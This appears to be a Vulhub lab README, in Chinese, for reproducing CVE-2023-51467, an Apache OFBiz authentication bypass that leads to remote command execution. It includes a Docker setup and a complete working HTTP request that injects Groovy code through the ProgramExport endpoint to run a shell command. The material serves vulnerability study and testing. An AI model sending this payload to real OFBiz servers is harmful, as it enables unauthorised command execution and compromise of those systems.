

# Apache OFBiz 鉴权绕过导致命令执行（CVE-2023-51467）

Apache OFBiz是一个非常著名的电子商务平台，是一个非常著名的开源项目，提供了创建基于最新J2EE/XML规范和技术标准，构建大中型企业级、跨平台、跨数据库、跨应用服务器的多层、分布式电子商务类WEB应用系统的框架。 OFBiz最主要的特点是OFBiz提供了一整套的开发基于Java的web应用程序的组件和工具。包括实体引擎, 服务引擎, 消息引擎, 工作流引擎, 规则引擎等。

这个漏洞的原因是对于[CVE-2023-49070](https://github.com/vulhub/vulhub/tree/master/ofbiz/CVE-2023-49070)的不完全修复。在Apache OFBiz 18.12.10版本中，官方移除了可能导致RCE漏洞的XMLRPC组件，但没有修复权限绕过问题。来自长亭科技的安全研究员利用这一点找到了另一个可以导致RCE的方法：Groovy表达式注入。

参考连接：

- <https://github.com/apache/ofbiz-framework/commit/d8b097f6717a4004acf023dfe929e0e41ad63faa>
- <https://xz.aliyun.com/t/13211>
- <https://y4tacker.github.io/2023/12/27/year/2023/12/Apache-OFBiz%E6%9C%AA%E6%8E%88%E6%9D%83%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E6%B5%85%E6%9E%90-CVE-2023-51467/>

## 漏洞环境

执行如下命令启动一个Apache OfBiz 18.12.10服务器：

```
docker compose up -d
```

在等待数分钟后，访问`https://localhost:8443/accounting`查看到登录页面，说明环境已启动成功。

## 漏洞复现

直接发送如下请求即可使用Groovy脚本执行`id`命令：

```
POST /webtools/control/ProgramExport/?USERNAME=&PASSWORD=&requirePasswordChange=Y HTTP/1.1
Host: localhost:8443
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.6045.159 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 55

groovyProgram=throw+new+Exception('id'.execute().text);
```


